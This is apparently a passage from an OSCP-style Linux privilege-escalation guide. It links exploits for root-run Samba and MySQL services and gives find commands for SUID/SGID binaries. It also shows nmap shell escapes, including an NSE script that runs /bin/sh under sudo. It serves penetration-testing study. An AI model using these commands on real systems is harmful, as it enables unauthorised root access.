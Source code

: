 ### usr/bin/env python ''' team-edward.py Linux Kernel http://jon.oberheide.org Information…

www.exploit-db.com



](https://www.exploit-db.com/exploits/12130)

\\x02 Exploit the service running as root
=========================================

There are 2 cases I encountered in OSCP lab are Samba 2.2.x and MySQL.

For Samba 2.2.x, please check the following link:

[

Offensive Security's Exploit Database Archive
---------------------------------------------

### Samba < 2.2.8 (Linux/BSD) - Remote Code Execution. CVE-4469CVE-2003-0201 . remote exploit for Multiple platform

www.exploit-db.com



](https://www.exploit-db.com/exploits/10)

For MySQL, if there is mysql daemon running as root, you could utilize UDF (User Define Function) to get root shell.

[

Offensive Security's Exploit Database Archive
---------------------------------------------

### MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2).. local exploit for Linux platform

www.exploit-db.com



](https://www.exploit-db.com/exploits/1518)

\\x03 Find anything with SUID / SGID permission
===============================================

Use the following 2 commands:

> $ find / -user root -perm -4000 2>/dev/null  
> $ find / -perm -2000 2>/dev/null

If you find the following command with SUID/SGID permission, perfect, you almost win.

nmap
----

> $ nmap --interactive  
> nmap> !sh
> 
> Another way below (if nmap doesn’t have interactive mode):  
> ($ echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse)  
> ($ sudo nmap --script=/tmp/shell.nse)
